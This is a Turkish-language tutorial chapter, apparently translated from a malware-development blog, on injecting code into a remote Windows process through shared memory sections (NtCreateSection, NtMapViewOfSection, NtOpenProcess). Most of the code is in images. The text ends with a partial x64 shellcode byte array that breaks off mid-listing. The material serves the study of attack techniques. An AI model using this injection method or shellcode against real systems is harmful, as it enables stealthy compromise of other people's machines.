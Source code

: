\newpage
\subsection{24. memory sections ile kod enjeksiyonu. Basit C++ örneği. }

﷽

![code injection](./images/32/2021-12-15_17-37.png){width="80%"}    

Önceki bölümlerde, WinAPI işlevlerinin Native API işlevleriyle [değiştirildiği](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html) klasik enjeksiyonlardan bahsetmiştim.    

Bu bölüm, başka bir kötü amaçlı yazılım geliştirme tekniği üzerine yaptığım kendi araştırmaların bir sonucudur.    

Bu tür numaraların sıradan bir uygulamada kullanılması zararlı bir şeyin göstergesi olsa da, tehdit aktörleri süreç enjeksiyonu için bunları kullanmaya devam edecektir.    

### bölüm (section) nedir? 

Bölüm, süreçler arasında paylaşılan bir bellek bloğudur ve `NtCreateSection` API'si ile oluşturulabilir.     

### pratik örnek

Bu tekniğin akışı şu şekildedir: Öncelikle, `NtCreateSection` aracılığıyla yeni bir bölüm nesnesi oluşturuyoruz:     

![code injection 1](./images/32/2021-12-15_18-07.png){width="80%"}    

![code injection 2](./images/32/2021-12-15_17-59.png){width="80%"}    

Ardından, bir süreç bu bellek bloğunu okuyup/yazmadan önce, belirtilen bölümün bir görünümünü haritalandırmalıdır. Bu, `NtMapViewOfSection` ile yapılabilir:     

![code injection 3](./images/32/2021-12-15_18-08.png){width="80%"}    

Oluşturulan bölümün bir görünümünü yerel zararlı sürece `RW` korumasıyla haritalandırın:     

![code injection 4](./images/32/2021-12-15_18-04.png){width="80%"}    

Daha sonra, oluşturulan bölümün bir görünümünü uzak hedef sürece `RX` korumasıyla haritalandırın:      

![code injection 5](./images/32/2021-12-15_18-12.png){width="80%"}    

Gördüğünüz gibi, süreci açmak için Native API olan [NtOpenProcess](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html) işlevini kullandım:

![code injection 5.1](./images/32/2021-12-15_18-20.png){width="80%"}    

Sonra payload'umuzu yazıyoruz:     

```cpp
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
```